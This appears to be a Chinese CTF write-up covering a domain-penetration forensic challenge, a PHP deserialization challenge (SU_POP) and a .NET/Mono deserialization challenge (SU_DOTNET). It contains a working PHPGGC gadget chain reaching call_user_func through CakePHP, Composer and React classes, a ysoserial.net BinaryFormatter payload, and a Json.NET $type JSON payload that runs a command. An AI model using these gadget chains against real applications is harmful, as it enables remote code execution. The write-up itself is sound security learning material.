

脚本通过 `generator` 函数混淆。



将[混淆字符串](wmi-obfuscated.txt)下载到脚本所在目录，再运行以下脚本恢复 VBS 原文：

```python
# 假设初始化的字符串
from pathlib import Path
DgtsBdJtEpjIlKMcvpKuMkflhSPGhjk = Path("wmi-obfuscated.txt").read_text().strip()
# 分割符号，先进行计算，再转换为字符
delimiter = chr(int(412650 / 9825))  # 强制转换为整数

# 使用 Python 的 split 方法来模拟 VBScript 的 Split
tgCkvHzLfnluUjonbpHlONFeuZDEhZM = DgtsBdJtEpjIlKMcvpKuMkflhSPGhjk.split(delimiter)

PFdUCUBuebAkdpolqLKtaWRPdRgMinr = ""
# 遍历数组并拼接字符串
for ovAMSOWhTVsIBXdbZCDgELLDJUWTVRN in tgCkvHzLfnluUjonbpHlONFeuZDEhZM:
    PFdUCUBuebAkdpolqLKtaWRPdRgMinr = PFdUCUBuebAkdpolqLKtaWRPdRgMinr + chr(int(eval(ovAMSOWhTVsIBXdbZCDgELLDJUWTVRN)))

# 输出最终结果
print(PFdUCUBuebAkdpolqLKtaWRPdRgMinr)
```





使用之前制作的 keytab 解密流量。



获得密码后，解开压缩包即可取得 Flag。



感谢 [@whoami](https://whoamianony.top/) 和 [@eson](https://eson.ninja/) 在我学习域渗透时给予的帮助。

## SU_POP

### 反序列化入口与利用链

题目通过 `ser` 查询参数接收 Base64 编码的序列化数据，解码后直接调用 `unserialize`。利用入口是 `React\Promise\Internal\RejectedPromise`，通过 Composer 的 `Pool` 和 CakePHP 的 `MapReduce` 将可控参数传给 `call_user_func`。

析构时，未处理的 `RejectedPromise` 会把 `reason` 拼进错误信息，触发 `Pool::__toString()`。后者遍历 `packages` 时，`MapReduce::getIterator()` 执行 mapper，最终以数组的值和键作为回调参数。题目中的对象由反序列化恢复，因此可以设置这些属性并绕过正常构造函数的参数约束。

想出一道框架 POP 链挖掘题时，我发现 PHPGGC 中的 CakePHP 链很久没有更新，于是尝试寻找新的利用链。

比赛后看了其他题解，发现大家选用的入口都是 `RejectedPromise` 类。

下面是我使用的 Payload。

参考：[CakePHP POP 链分析](https://forum.butian.net/share/2411)

下面两段分别是 PHPGGC 的链定义和用于生成序列化对象的类桩，需放入 PHPGGC 对应的 gadget 目录中使用。

```php
<?php

namespace GadgetChain\CakePHP;


class RCE7 extends \PHPGGC\GadgetChain\RCE\FunctionCall
{
    public static $version = 'new';
    public static $vector = '__destruct';
    public static $author = 'shukuang';

    public function generate(array $parameters)
    {
        $a = [$parameters["parameter"] => $parameters["function"]];
        $b = new \Cake\Collection\Iterator\MapReduce(false, "call_user_func", $a);
        $c = new \Composer\DependencyResolver\Pool($b);
        $d = new \React\Promise\Internal\RejectedPromise($c);
        return $d;
    }
}
```

```php
<?php

namespace Seld\Signal {
    final class SignalHandler
    {
        private $signals;

        public function __construct($signals)
        {
            $this->signals = $signals;
        }
    }
}


namespace Cake\Collection\Iterator {

    class MapReduce
    {
        protected bool $_executed;
        protected $_mapper;
        protected iterable $_data;

        public function __construct($_executed, $mapper, $_data)
        {
            $this->_executed = $_executed;
            $this->_mapper = $mapper;
            $this->_data = $_data;
        }
    }
}

namespace Composer\DependencyResolver {
    class Pool
    {
        protected $packages;

        public function __construct($packages)
        {
            $this->packages = $packages;
        }
    }
}


namespace React\Promise\Internal {
    class RejectedPromise
    {
        private $handled;
        private $reason;

        public function __construct($reason)
        {
            $this->handled = false;
            $this->reason = $reason;
        }
    }
}
```


## SU_DOTNET

这道题将 JSON 反序列化与 `BinaryFormatter` 利用链结合起来。解题时需要注意运行环境是 Mono：它对 .NET Framework 的实现与原版存在差异，因此并非所有 .NET 反序列化链都能直接使用。

### 生成 Mono 利用链

利用链可以使用 [ysoserial.net](https://github.com/pwntester/ysoserial.net) 生成。原题测试时，最新版生成 `TypeConfuseDelegateMono` 链会报错；[v1.32](https://github.com/pwntester/ysoserial.net/releases/download/v1.32/ysoserial-1.32.zip) 可以正常生成。下面的示例生成执行 `touch /tmp/pwn-windows` 的 Base64 数据：

```powershell
C:\Users\29217\Downloads\Compressed\ysoserial-1.32\Release\ysoserial.exe  -f binaryformatter -g TypeConfuseDelegateMono -c 'touch /tmp/pwn-windows' --rawcmd -o base64
AAEAAAD/////AQAAAAAAAAAMAgAAAElTeXN0ZW0sIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5BQEAAACEAVN5c3RlbS5Db2xsZWN0aW9ucy5HZW5lcmljLlNvcnRlZFNldGAxW1tTeXN0ZW0uU3RyaW5nLCBtc2NvcmxpYiwgVmVyc2lvbj00LjAuMC4wLCBDdWx0dXJlPW5ldXRyYWwsIFB1YmxpY0tleVRva2VuPWI3N2E1YzU2MTkzNGUwODldXQQAAAAFQ291bnQIQ29tcGFyZXIHVmVyc2lvbgVJdGVtcwADAAYIjQFTeXN0ZW0uQ29sbGVjdGlvbnMuR2VuZXJpYy5Db21wYXJpc29uQ29tcGFyZXJgMVtbU3lzdGVtLlN0cmluZywgbXNjb3JsaWIsIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5XV0IAgAAAAIAAAAJAwAAAAIAAAAJBAAAAAQDAAAAjQFTeXN0ZW0uQ29sbGVjdGlvbnMuR2VuZXJpYy5Db21wYXJpc29uQ29tcGFyZXJgMVtbU3lzdGVtLlN0cmluZywgbXNjb3JsaWIsIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5XV0BAAAAC19jb21wYXJpc29uAyJTeXN0ZW0uRGVsZWdhdGVTZXJpYWxpemF0aW9uSG9sZGVyCQUAAAARBAAAAAIAAAAGBgAAABAvdG1wL3B3bi13aW5kb3dzBgcAAAAFdG91Y2gEBQAAACJTeXN0ZW0uRGVsZWdhdGVTZXJpYWxpemF0aW9uSG9sZGVyAwAAAAhEZWxlZ2F0ZQdtZXRob2QwB21ldGhvZDEDAwMwU3lzdGVtLkRlbGVnYXRlU2VyaWFsaXphdGlvbkhvbGRlcitEZWxlZ2F0ZUVudHJ5L1N5c3RlbS5SZWZsZWN0aW9uLk1lbWJlckluZm9TZXJpYWxpemF0aW9uSG9sZGVyL1N5c3RlbS5SZWZsZWN0aW9uLk1lbWJlckluZm9TZXJpYWxpemF0aW9uSG9sZGVyCQgAAAAJCQAAAAkJAAAABAgAAAAwU3lzdGVtLkRlbGVnYXRlU2VyaWFsaXphdGlvbkhvbGRlcitEZWxlZ2F0ZUVudHJ5BwAAAAR0eXBlCGFzc2VtYmx5BnRhcmdldBJ0YXJnZXRUeXBlQXNzZW1ibHkOdGFyZ2V0VHlwZU5hbWUKbWV0aG9kTmFtZQ1kZWxlZ2F0ZUVudHJ5AQECAQEBAzBTeXN0ZW0uRGVsZWdhdGVTZXJpYWxpemF0aW9uSG9sZGVyK0RlbGVnYXRlRW50cnkGCgAAALACU3lzdGVtLkZ1bmNgM1tbU3lzdGVtLlN0cmluZywgbXNjb3JsaWIsIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5XSxbU3lzdGVtLlN0cmluZywgbXNjb3JsaWIsIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5XSxbU3lzdGVtLkRpYWdub3N0aWNzLlByb2Nlc3MsIFN5c3RlbSwgVmVyc2lvbj00LjAuMC4wLCBDdWx0dXJlPW5ldXRyYWwsIFB1YmxpY0tleVRva2VuPWI3N2E1YzU2MTkzNGUwODldXQYLAAAAS21zY29ybGliLCBWZXJzaW9uPTQuMC4wLjAsIEN1bHR1cmU9bmV1dHJhbCwgUHVibGljS2V5VG9rZW49Yjc3YTVjNTYxOTM0ZTA4OQoGDAAAAElTeXN0ZW0sIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5Bg0AAAAaU3lzdGVtLkRpYWdub3N0aWNzLlByb2Nlc3MGDgAAAAVTdGFydAkPAAAABAkAAAAvU3lzdGVtLlJlZmxlY3Rpb24uTWVtYmVySW5mb1NlcmlhbGl6YXRpb25Ib2xkZXIHAAAABE5hbWUMQXNzZW1ibHlOYW1lCUNsYXNzTmFtZQlTaWduYXR1cmUKU2lnbmF0dXJlMgpNZW1iZXJUeXBlEEdlbmVyaWNBcmd1bWVudHMBAQEBAQADCA1TeXN0ZW0uVHlwZVtdCQ4AAAAJDAAAAAkNAAAABhMAAAA+U3lzdGVtLkRpYWdub3N0aWNzLlByb2Nlc3MgU3RhcnQoU3lzdGVtLlN0cmluZywgU3lzdGVtLlN0cmluZykGFAAAAD5TeXN0ZW0uRGlhZ25vc3RpY3MuUHJvY2VzcyBTdGFydChTeXN0ZW0uU3RyaW5nLCBTeXN0ZW0uU3RyaW5nKQgAAAAKAQ8AAAAIAAAACQoAAAAJCwAAAAoJDAAAAAkNAAAACQ4AAAAKCw==
```

### 构造 JSON

将生成的数据放入 `Evil` 对象的 `SerializedValue`，并通过 `PropertyGrid` 的 `SelectedObjects` 传入。完整示例如下：

```json
{"Address":{"$type":"System.Windows.Forms.PropertyGrid, System.Windows.Forms","SelectedObjects":[
      {
         "$type":"Evil, Program",
         "SerializedValue":"AAEAAAD/////AQAAAAAAAAAMAgAAAElTeXN0ZW0sIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5BQEAAACEAVN5c3RlbS5Db2xsZWN0aW9ucy5HZW5lcmljLlNvcnRlZFNldGAxW1tTeXN0ZW0uU3RyaW5nLCBtc2NvcmxpYiwgVmVyc2lvbj00LjAuMC4wLCBDdWx0dXJlPW5ldXRyYWwsIFB1YmxpY0tleVRva2VuPWI3N2E1YzU2MTkzNGUwODldXQQAAAAFQ291bnQIQ29tcGFyZXIHVmVyc2lvbgVJdGVtcwADAAYIjQFTeXN0ZW0uQ29sbGVjdGlvbnMuR2VuZXJpYy5Db21wYXJpc29uQ29tcGFyZXJgMVtbU3lzdGVtLlN0cmluZywgbXNjb3JsaWIsIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5XV0IAgAAAAIAAAAJAwAAAAIAAAAJBAAAAAQDAAAAjQFTeXN0ZW0uQ29sbGVjdGlvbnMuR2VuZXJpYy5Db21wYXJpc29uQ29tcGFyZXJgMVtbU3lzdGVtLlN0cmluZywgbXNjb3JsaWIsIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5XV0BAAAAC19jb21wYXJpc29uAyJTeXN0ZW0uRGVsZWdhdGVTZXJpYWxpemF0aW9uSG9sZGVyCQUAAAARBAAAAAIAAAAGBgAAABAvdG1wL3B3bi13aW5kb3dzBgcAAAAFdG91Y2gEBQAAACJTeXN0ZW0uRGVsZWdhdGVTZXJpYWxpemF0aW9uSG9sZGVyAwAAAAhEZWxlZ2F0ZQdtZXRob2QwB21ldGhvZDEDAwMwU3lzdGVtLkRlbGVnYXRlU2VyaWFsaXphdGlvbkhvbGRlcitEZWxlZ2F0ZUVudHJ5L1N5c3RlbS5SZWZsZWN0aW9uLk1lbWJlckluZm9TZXJpYWxpemF0aW9uSG9sZGVyL1N5c3RlbS5SZWZsZWN0aW9uLk1lbWJlckluZm9TZXJpYWxpemF0aW9uSG9sZGVyCQgAAAAJCQAAAAkJAAAABAgAAAAwU3lzdGVtLkRlbGVnYXRlU2VyaWFsaXphdGlvbkhvbGRlcitEZWxlZ2F0ZUVudHJ5BwAAAAR0eXBlCGFzc2VtYmx5BnRhcmdldBJ0YXJnZXRUeXBlQXNzZW1ibHkOdGFyZ2V0VHlwZU5hbWUKbWV0aG9kTmFtZQ1kZWxlZ2F0ZUVudHJ5AQECAQEBAzBTeXN0ZW0uRGVsZWdhdGVTZXJpYWxpemF0aW9uSG9sZGVyK0RlbGVnYXRlRW50cnkGCgAAALACU3lzdGVtLkZ1bmNgM1tbU3lzdGVtLlN0cmluZywgbXNjb3JsaWIsIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5XSxbU3lzdGVtLlN0cmluZywgbXNjb3JsaWIsIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5XSxbU3lzdGVtLkRpYWdub3N0aWNzLlByb2Nlc3MsIFN5c3RlbSwgVmVyc2lvbj00LjAuMC4wLCBDdWx0dXJlPW5ldXRyYWwsIFB1YmxpY0tleVRva2VuPWI3N2E1YzU2MTkzNGUwODldXQYLAAAAS21zY29ybGliLCBWZXJzaW9uPTQuMC4wLjAsIEN1bHR1cmU9bmV1dHJhbCwgUHVibGljS2V5VG9rZW49Yjc3YTVjNTYxOTM0ZTA4OQoGDAAAAElTeXN0ZW0sIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5Bg0AAAAaU3lzdGVtLkRpYWdub3N0aWNzLlByb2Nlc3MGDgAAAAVTdGFydAkPAAAABAkAAAAvU3lzdGVtLlJlZmxlY3Rpb24uTWVtYmVySW5mb1NlcmlhbGl6YXRpb25Ib2xkZXIHAAAABE5hbWUMQXNzZW1ibHlOYW1lCUNsYXNzTmFtZQlTaWduYXR1cmUKU2lnbmF0dXJlMgpNZW1iZXJUeXBlEEdlbmVyaWNBcmd1bWVudHMBAQEBAQADCA1TeXN0ZW0uVHlwZVtdCQ4AAAAJDAAAAAkNAAAABhMAAAA+U3lzdGVtLkRpYWdub3N0aWNzLlByb2Nlc3MgU3RhcnQoU3lzdGVtLlN0cmluZywgU3lzdGVtLlN0cmluZykGFAAAAD5TeXN0ZW0uRGlhZ25vc3RpY3MuUHJvY2VzcyBTdGFydChTeXN0ZW0uU3RyaW5nLCBTeXN0ZW0uU3RyaW5nKQgAAAAKAQ8AAAAIAAAACQoAAAAJCwAAAAoJDAAAAAkNAAAACQ4AAAAKCw=="}
   ]}}
```



### 参考资料

- [DotNet 新 Gadget](https://y4er.com/posts/dotnet-new-gadget/)
- [Seebug Paper 相关文章](https://paper.seebug.org/3106/)
- [.NET Deserialization Whitepaper](https://github.com/thezdi/presentations/blob/main/2023_Hexacon/whitepaper-net-deser.pdf)
